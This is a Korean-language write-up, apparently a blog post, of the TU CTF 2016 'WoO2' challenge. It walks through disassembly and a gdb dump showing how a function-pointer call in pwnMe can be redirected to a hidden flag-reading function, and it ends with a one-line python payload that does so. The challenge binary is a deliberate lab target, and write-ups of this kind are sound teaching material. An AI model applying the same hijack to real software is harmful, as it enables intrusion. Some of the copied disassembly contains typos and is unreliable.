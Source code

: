 ```yaml
---
title: TU CTF 2016 - WoO2
slug: tu-ctf-2016-woo2
date: 2016-05-17 21:16:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


TU CTF 2016에서 못푼 문제

```sh
$ ./WoO2
Welcome! I don't think we're in Kansas anymore.
We're about to head off on an adventure!
Select some animals you want to bring along.

Menu Options:
1: Bring a lion
2: Bring a tiger
3: Bring a bear
4: Delete Animal
5: Exit

Enter your choice:
5
$
```

실행하면 이렇게 뜬다.

```text
Enter your choice:
1
Choose the type of lion you want:
1: Congo Lion
2: Barbary Lion
1
Enter name of lion:
AAA
```

동물을 고르면 종류를 고를 수 있고 이름도 지어줄 수 있다.

```x86asm
$ readelf -s WoO2 | grep 'GLOBAL DEFAULT   13'
    45: 0000000000400fb0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
    48: 0000000000400a11   131 FUNC    GLOBAL DEFAULT   13 makeLion
    59: 0000000000400a94   155 FUNC    GLOBAL DEFAULT   13 pickTigerType
    65: 0000000000400989   136 FUNC    GLOBAL DEFAULT   13 pickLionType
    67: 0000000000400eaf    51 FUNC    GLOBAL DEFAULT   13 printWelcome
    69: 0000000000400c39   168 FUNC    GLOBAL DEFAULT   13 makeBear
    72: 0000000000400b2f   131 FUNC    GLOBAL DEFAULT   13 makeTiger
    73: 0000000000400f40   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    76: 0000000000400bb2   135 FUNC    GLOBAL DEFAULT   13 pickBearType
    78: 0000000000400820     0 FUNC    GLOBAL DEFAULT   13 _start
    79: 0000000000400e5e    81 FUNC    GLOBAL DEFAULT   13 printMenu
    81: 0000000000400ee2    93 FUNC    GLOBAL DEFAULT   13 main
    82: 0000000000400ce1    67 FUNC    GLOBAL DEFAULT   13 pwnMe
    85: 0000000000400d90   206 FUNC    GLOBAL DEFAULT   13 makeStuff
    86: 000000000040090d   124 FUNC    GLOBAL DEFAULT   13 l33tH4x0r
    92: 0000000000400d24   108 FUNC    GLOBAL DEFAULT   13 deleteAnimal
```

`l33tH4x0r` 함수를 보면

```x86asm
Dump of assembler code for function l33tH4x0r:
   0x000000000040090d <+0>:     push   rbp
   0x000000000040090e <+1>:     mov    rbp,rsp
   0x0000000000400911 <+4>:     sub    rsp,0x50
   0x0000000000400915 <+8>:     mov    rax,QWOR PTR fs:0x28
   0x000000000040091e <+17>:    mov    QWORD PRT [rbp-0x8],rax
   0x0000000000400922 <+21>:    xor    eax,eax
   0x0000000000400924 <+23>:    mov    esi,0x400fc8
   0x0000000000400929 <+28>:    mov    edi,0x400fca
   0x000000000040092e <+33>:    call   cx4007f0 <fopen&plt>
```

`flag.txt`(0x400fca)를 여는 함수다. 그런데 이 함수를 호출하는 함수가 없다.

Enter your choice:에서 4919를 입력하면 pwnMe 함수가 실행되는데, pwnMe 함수를 보면

```x86asm
Dump of assembler code for function pwnMe:
   0x0000000000400ce1 <+0>:     push   rbp
   0x0000000000400ce2 <+1>:     mov    rbp,rsp
   0x0000000000400ce5 <+4>:     sub    rsp,0x10
   0x0000000000400ce9 <+8>:     mov    eax,DWORD PTR [rip+0x2013d1]     # 0x6020c0 <bearOffset>
   0x0000000000400cef <+14>:    cdqe
   0x0000000000400cf1 <+16>:    mov    rax,QWORD PTR [rax*8+0x6020e0]
   0x0000000000400cf9 <+24>:    mov    QWORD PTR [rbp-0x10],rax
   0x0000000000400cfd <+28>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d01 <+32>:    mov    eax,DWORD PTR [rax+0x14]
   0x0000000000400d04 <+35>:    cmp    eax,0x3
   0x0000000000400d07 <+38>:    jne    0x400d1a <pwnMe+57>
   0x0000000000400d09 <+40>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d0d <+44>:    mov    rax,QWORD PTR [rax]
   0x0000000000400d10 <+47>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400d14 <+51>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400d18 <+55>:    call   rax
   0x0000000000400d1a <+57>:    mov    edi,0x0
   0x0000000000400d1f <+62>:    call   0x400810 <exit@plt>
```

pwnMe+35에서 eax는 동물의 종류를 고를 때의 숫자, pwnMe+55에서 rax는 동물의 이름의 헥사값을 가리킨다. 예를 들어 lion, tiger, bear순으로 각각 타입은 1, 2, 3, 이름은 AAA, BBB, CCC라고 이름을 지으면 메모리는 상황은 다음 스크린샷과 같다.

```x86asm
(gdb) x/24x 0x603010
0x603010:       0x0a414141      0x00000000      0x00000000      0x00000000
0x603020:       0x00000000      0x00000001      0x00000021      0x00000000
0x603030:       0x0a424242      0x00000000      0x00000000      0x00000000
0x603040:       0x00000000      0x00000002      0x00000021      0x00000000
0x603050:       0xdeadbeef      0x00000000      0x0a434343      0x00000000
0x603060:       0x00000000      0x00000003      0x00020fa1      0x00000000
```

bear를 만드는 함수는 다른 동물을 만드는 함수와 달라서 이름이 들어갈 자리에 0xdeadbeef가 들어가니까 bear는 만들지 말고, 다른 동물을 만들어서 l33tH4x0r 함수 주소를 입력하면 실행시킬 수 있다.

그런데 난 주소가 64비트인 걸 생각 안하고 \x0d\x09\x40\x00만 죽어라 입력하다가 못풀었다. 컴퓨터는 개행문자까지 포함해서 0x0a0040090d를 호출하려고 시도했던 것ㅠㅠ

풀이

```sh
python -c "print '2\n3\n' + '\x0d\x09\x40\x00\x00\x00\x00\x00' + '\n4919\n'" | ./WoO2
```
